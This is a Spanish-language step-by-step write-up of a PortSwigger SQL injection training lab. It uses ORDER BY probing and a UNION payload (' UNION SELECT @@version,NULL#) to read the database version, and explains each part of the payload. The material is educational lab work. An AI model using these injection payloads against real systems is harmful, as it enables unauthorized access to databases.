


# Write-up - PortSwigger SQLi Lab 7 (DETALLADO)

Voy a hacer un laboratorio de Port Swigger. El lab 7 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

---

## 1. Descripción (Traducción COMPLETA)

**Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**

**Traducción al Español:**

Laboratorio: ataque de inyección SQL, consultando el tipo y la versión de la base de datos en MySQL y Microsoft.

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

→ Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Puedes usar un ataque UNION para recuperar los resultados de una consulta inyectada.

To solve the lab, display the database version string.

→ Para resolver el laboratorio, muestra la cadena de versión de la base de datos.

---

## 2. Objetivo del laboratorio

Por tanto, nuestro objetivo principal es:

**Obtener el tipo y la versión de la base de datos (MySQL / Microsoft SQL Server).**

Esto implica:

- Identificar el número de columnas
- Ver qué columnas aceptan texto
- Construir un UNION válido
- Extraer la versión usando funciones propias del motor

---

## 3. Apertura del laboratorio

Abrimos el laboratorio:

https://0a2700ca03e1645a837729b0007700fa.web-security-academy.net/

La página tiene el siguiente aspecto:



**Referencia imagen 1:**
Vista inicial de la aplicación vulnerable, mostrando la tienda y la categoría “Food & Drink”.

---

## 4. Preparación del entorno

- Abrimos **Burp Suite Professional**
- Activamos **FoxyProxy**
- Navegamos por la web para capturar tráfico en **HTTP History**

El objetivo es interceptar la request vulnerable.

---

## 5. Identificación del punto vulnerable

Accedemos a:

https://0a2700ca03e1645a837729b0007700fa.web-security-academy.net/filter?category=Food+%26+Drink

Observamos que el parámetro vulnerable es:

category=Food+%26+Drink

Enviamos esta request a **Repeater**.

---

## 6. Request original

```http
GET /filter?category=Food+%26+Drink HTTP/1.1
Host: 0a2700ca03e1645a837729b0007700fa.web-security-academy.net
Cookie: session=OWGbaatgD4N8TVD4rb59zj0sIoz762JI
User-Agent: Mozilla/5.0
```

---

## 7. Paso 1: Determinar número de columnas

Sabemos que estamos en MySQL/Microsoft, por lo que usamos comentarios con #.

Probamos:

```http
' ORDER BY 1#
→ 200 OK

' ORDER BY 2#
→ 200 OK

' ORDER BY 3#
→ 500 Internal Server Error
```

### Interpretación:

- 1 → válido
- 2 → válido
- 3 → rompe la query

→ **La consulta tiene 2 columnas**

---

## 8. Paso 2: Identificar columnas que aceptan texto

Ahora necesitamos saber si las columnas permiten datos tipo string.

Probamos:

```http
' UNION SELECT 'a','a'#
→ 200 OK
```

### Interpretación:

- Ambas columnas aceptan texto
- Podemos insertar strings sin errores

---

## 9. Paso 3: Construcción del payload final

Ya sabemos:

- Nº columnas: 2
- Ambas aceptan texto
- Motor: MySQL / SQL Server

Usamos:

```http
' UNION SELECT @@version,NULL#
```

---

## 10. Explicación técnica del payload (MUY IMPORTANTE)

### 10.1 @@version

Es una variable global del sistema en:

- MySQL
- Microsoft SQL Server

Devuelve información como:

- versión del motor
- sistema operativo
- build

Ejemplo:

8.0.42-0ubuntu0.20.04.1

---

### 10.2 NULL

Necesario para mantener el número de columnas.

Si no lo ponemos:

→ error de UNION

Porque:

```sql
SELECT col1, col2 FROM tabla
UNION
SELECT @@version
```

Esto falla.

Debe ser:

```sql
SELECT col1, col2 FROM tabla
UNION
SELECT @@version, NULL
```

---

### 10.3 #

Comentario en MySQL / SQL Server.

Sirve para ignorar el resto de la query original.

Ejemplo real:

```sql
WHERE category = 'Food & Drink' AND released = 1
```

Tras la inyección:

```sql
WHERE category = '' UNION SELECT @@version,NULL # ' AND released = 1
```

Todo lo de la derecha queda ignorado.

---

### 10.4 Comilla inicial '

Sirve para cerrar la cadena original:

```sql
category = '
```

Se convierte en:

```sql
category = ''
```

Y permite ejecutar el UNION.

---

## 11. Resultado final

La aplicación devuelve:



**Referencia imagen 2:**

- Se observa el mensaje: “Congratulations, you solved the lab!”
- Se muestra la versión de la base de datos directamente en la web

Versión obtenida:

```text
8.0.42-0ubuntu0.20.04.1
```

---

## 12. Conclusión técnica

En este laboratorio hemos aprendido:

- Cómo adaptar SQLi según el motor (Oracle vs MySQL vs MSSQL)
- Uso de comentarios (# vs --)
- Uso de variables internas (@@version)
- Importancia del número de columnas en UNION
- Cómo construir payloads válidos

---

## 13. Payload final utilizado

```http
' UNION SELECT @@version,NULL#
```

---

## 14. Resultado

✔ Laboratorio completado correctamente
